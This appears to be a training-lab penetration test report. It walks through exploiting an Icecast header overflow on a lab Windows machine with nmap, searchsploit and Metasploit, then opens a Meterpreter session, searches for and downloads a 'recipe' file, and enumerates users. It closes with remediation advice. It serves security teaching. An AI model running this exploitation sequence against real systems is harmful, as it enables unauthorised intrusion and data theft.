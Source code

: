 
# <p style="text-align: center;"> GoodSecurity Penetration Test Report</p>

<p style="text-align: center;">mark@GoodSecurity.com</p>

10th April, 2022



## 1.	High-Level Summary

GoodSecurity was tasked with performing an internal penetration test on GoodCorp’s CEO, Hans Gruber. An internal penetration test is a dedicated attack against internally connected systems. The goal of this test is to perform attacks similar to those of a hacker and attempt to infiltrate Hans’ computer to determine if it is at risk. GoodSecurity’s overall objective was to exploit any vulnerable software, find a secret recipe file on Hans’ computer, and report the findings back to GoodCorp.
The internal penetration test found several alarming vulnerabilities on Hans’ computer: When performing the attacks, GoodSecurity was able to gain access to his machine and find the secret recipe file by exploiting one program with major vulnerabilities. The details of the attack are below.
## 2.	Findings

Machine IP: `192.168.0.20`
Hostname: `MSEDGEWIN10`
Vulnerability Exploited: `Icecast Header Overwrite`
Vulnerability Explanation: `This is "a buffer overflow in the header parsing of Icecast versions 2.0.1 and earlier, discovered by Luigi Auriemma. Sending 32 HTTP headers will cause a write one past the end of a pointer array. On win32 this happens to overwrite the saved instruction pointer, and on linux (depending on compiler, etc) this seems to generally overwrite nothing crucial (read not exploitable). This exploit uses ExitThread(), this will leave icecast thinking the thread is still in use, and the thread counter won't be decremented. This means for each time your payload exits, the counter will be left incremented, and eventually the threadpool limit will be maxed. So you can multihit, but only till you fill the threadpool."` Sorce: https://www.rapid7.com/db/modules/exploit/windows/http/icecast_header/
`As the CEO is running version 2.x of Icecast, his machine is vulnerable to this specific attack.`

Severity:
This vulnerability is a high risk vulnerability because an attacker can easily gain access to a shell prompt (as demonstrated below) and potentially utilise other exploits to escalate user privilege. 


Proof of Concept:

### Instructions

You've been provided full access to the network and are getting ping responses from the CEO’s workstation.

1. Perform a service and version scan using Nmap to determine which services are up and running:

    - Run the Nmap command that performs a service and version scan against the target.

      > Answer: nmap -sV 192.168.0.20
![nmap](Images/1.Service-and-version-scan.PNG)
2. From the previous step, we see that the Icecast service is running. Let's start by attacking that service. Search for any Icecast exploits:

   - Run the SearchSploit commands to show available Icecast exploits.
  
     > Answer: searchsploit icecast
![searchsploit](Images/2.Searchsploit-Icecast.PNG)
3. Now that we know which exploits are available to us, let's start Metasploit:

   - Run the command that starts Metasploit:

     > Answer: msfconsole

      ![Metasploit](Images/3.Metasploit.PNG)
4. Search for the Icecast module and load it for use.

   - Run the command to search for the Icecast module:

     > Answer: search icecast
![icecast](Images/4.Metasploit-Icecast.PNG)
   - Run the command to use the Icecast module:

     > Answer:use 0
 <br/>![use-0](Images/4.Metasploit-Icecast-use-0.PNG)
5. Set the `RHOST` to the target machine.

   - Run the command that sets the `RHOST`:

     > Answer: set RHOST 192.168.0.20
![set-RHOST](Images/5.Set-RHOST.PNG)
6. Run the Icecast exploit.

   - Run the command that runs the Icecast exploit.

     > Answer: run
![run-exploit](Images/6.Run.PNG)
   - Run the command that performs a search for the `secretfile` textfile on the target.
     > Answer: search -f `*secretfile*`.txt
<br/> ![search-secretfile](Images/6.Search-result.PNG)
7. You should now have a Meterpreter session open.

    - Run the command to performs a search for the `recipe` textfile on the target:
      > Answer: search -f *recipe*.txt
         <br/>![Search-recipe](Images/7.Search-recipe.PNG)
    - **Bonus**: Run the command that exfiltrates the `recipe` textfile:
      > Answer: download "c:\Users\IEUser\Documents\Drinks.recipe.txt"
![download-recipe](Images/7.Download-recipe.PNG)

8. You can also use Meterpreter's local exploit suggester to find possible exploits.
`run post/multi/recon/local_exploit_suggester`

    ![Exploit-suggester](Images/8.Exploit_Suggester.PNG)

  `The CEO's computer is also potentially vulnerable to an Ikeext exploit and ms16_075_reflection exploit, with both allowing the attacker to upgrade their user privilege.`

### Bonus
  
A. Run a Meterpreter post script that enumerates all logged on users.

  > Answer: Keeping the existing meterpreter session running (using background), run: search enum_user.
![Search enum_user](Images/Bonus-search-script.PNG)
![Search enum_user-II](Images/Bonus-search-script2.PNG)
run: use 991
![run 991](Images/Bonus-logged-on-users1.PNG)
![run 991-ii](Images/Bonus-logged-on-users2.PNG)


B. Open a Meterpreter shell and gather system information for the target.

  > Answer: 
     <br/>       Computer name:    MSEDGEWIN10
     <br/>       OS:               Windows 10 (10.0 Build 17763)
     <br/>       Architecture:     x64
    <br/>        System Language:  en_US
     <br/>       Domain:           WORKGROUP
     <br/>       Logged On Users:  1
     <br/>       Metrepreter:      x86/windows

C. Run the command that displays the target's computer system information:

   > Answer: `sysinfo`
   ![Sys info](Images/Bonus-sysinfo.PNG)


3.	Recommendations

What recommendations would you give to GoodCorp?

 For urgent action:
  1. Uninstall Icecast from the CEO's computer. Whilst upgrading to the latest version should mitigate the vulnerability, the application is not an approved application for use on company computers, thus it should be removed.
  2. Run a session with the senior executive management team to ensure that they all understand the importance of abiding by the company's IT policy framework and the potential for exposure by installing applications not approved by the IT department.
  3. Patch the CEO's computer to remove the Ikeext and ms16_075_reflection vulnerabilities.

Strongly recommended actions:
  1. Run a training program for all employees on IT security issues and how to ensure that they reduce the chances of being successfully hacked.
  2. Implement a policy to prevent all employees from having the ability to install applications on their work computers.
  3. Expand the scope of the pentesting engagement to include all senior management.

